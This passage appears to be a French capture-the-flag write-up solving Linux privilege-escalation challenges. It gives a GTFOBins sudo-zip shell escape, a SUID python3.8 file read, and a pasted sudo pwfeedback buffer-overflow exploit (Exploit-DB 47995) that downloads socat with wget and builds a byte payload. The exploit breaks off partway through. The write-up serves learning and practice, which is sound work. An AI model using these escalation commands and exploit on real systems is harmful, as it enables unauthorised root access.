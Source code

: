 - P&OOCEANA
- NORWEGIANSPIRIT
- Aucun des AIDA
- MARELLACELEBRATION
- CELESTYALCRYSTAL

**PHACK{CELEBRITYINFINITY}**

## Sudoku
```
-bash-5.1$ sudo -l
User padawan may run the following commands on sudoku:
    (master) NOPASSWD: /usr/bin/zip
```
Ca alors ! Go to GTFBin

```
TF=$(mktemp -u)
sudo -u master zip $TF /etc/hosts -T -TT 'sh #'
```

**PHACK{U_h4v3_tH3_suP3r_P0w3r}**

## To B, or ! to B
On cherche les executables qui ont le SUID bit.
```
-bash-5.1$ find / -user master -perm -4000 -exec ls -la {} \;
-rwsr-xr-x    1 master   root         14048 Mar 15 12:52 /usr/bin/python3.8
```
```
-bash-5.1$ python3.8
>>> open("/home/master/flag.txt","r").read()
```

**PHACK{U_4r3_hiM_bu7_h3's_n07_U}**

## Sudoku v2
L'options pwdfeedback est bugué, et permet de réaliser un buffer overflow. On trouve le bon petit exploit sur internet.

https://www.exploit-db.com/exploits/47995

```
#!/bin/bash

if [ ! -f socat ];
then
    wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
    chmod +x socat
fi

cat <<EOF > xpl.pl
\$buf_sz = 256;
\$askpass_sz = 32;
\$signo_sz = 4*65;
\$tgetpass_flag = "\x04\x00\x00\x00" . ("\x00"x24);
print("\x00\x15"x(\$buf_sz+\$askpass_sz) .
     ("\x00\x15"x\$signo_sz) .
     (\$tgetpass_flag) . "\x37\x98\x01\x00\x35\x98\x01\x00\x35\x98\x01\x00\xff\xff\xff\xff\x35\x98\x01\x00\x00\x00\x00\x00".
     "\x00\x00\x00\x00\x00\x15"x104 . "\n");
EOF

cat <<EOF > exec.c
#include <sys/types.h>
```